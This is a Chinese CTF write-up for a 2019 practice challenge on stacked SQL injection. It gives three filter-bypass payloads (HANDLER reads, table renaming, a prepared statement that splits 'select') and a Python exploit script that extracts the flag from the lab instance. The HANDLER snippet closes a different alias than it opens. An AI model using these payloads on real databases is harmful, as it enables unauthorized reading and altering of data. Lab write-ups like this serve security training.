



# 分析

来自[[强网杯 2019]随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)，sql注入

页面功能只有查询，应该是sql注入，判断注入类型，发现闭合是`'`(单引号)，



发现联合注入被ban了，尝试堆叠注入



知道了字段，



## 方法一：handler语句代替select查询

```php
1';handler `1919810931114514` open as a;  //同样的，这里的表名因为是纯数字所以需要用反引号包裹
handler a read first;
handler ye close;#  //注意：这里必须close handler才可以获取Flag
```

执行完上述请求再请求1即可获得Flag

## 方法二：重命名绕过

```php
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#
```

执行完上述请求再请求1’ or 1=1#即可获得Flag

## 方法三：预处理

```php
1';
set @a = CONCAT('se','lect * from `1919810931114514`;');  //字符串拼接绕过select过滤
prepare flag from @a;
EXECUTE flag;#
```

# exp

```python
import requests
import re

url = "http://92882be8-add9-49fb-970f-fd58e4ca9c0f.node5.buuoj.cn:81/"
kw={
  "inject":"1';sEt @a=concat(\"sel\",\"ect * from \`1919810931114514\`\");Prepare hello from @a;execute hello;#"
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", response_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

